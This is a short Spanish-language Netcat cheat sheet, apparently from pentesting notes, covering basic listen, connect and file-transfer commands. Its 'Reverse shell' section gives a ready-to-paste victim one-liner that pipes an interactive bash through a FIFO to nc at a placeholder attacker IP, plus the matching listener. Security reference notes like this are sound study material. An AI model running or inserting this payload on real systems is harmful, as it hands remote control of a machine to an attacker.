 # Netcat

## Comunicación entre dos máquinas

```bash
nc -l -p 1234            # Escuchar en el puerto 1234
nc ip 1234               # Conectar a la ip en el puerto 1234
nc -l -p 1234 > file.txt # Escuchar en el puerto 1234 y guardar la salida en file.txt
nc ip 1234 < file.txt    # Conectar a la ip en el puerto 1234 y enviar el contenido de file.txt
```

## Reverse shell

### Atacante

```bash
nc -lvp <puerto>
```

### Victima

```bash
mkfifo /tmp/fifo; cat /tmp/fifo | /bin/bash -i 2>&1 | nc <IP_atacante> <puerto> > /tmp/fifo
```
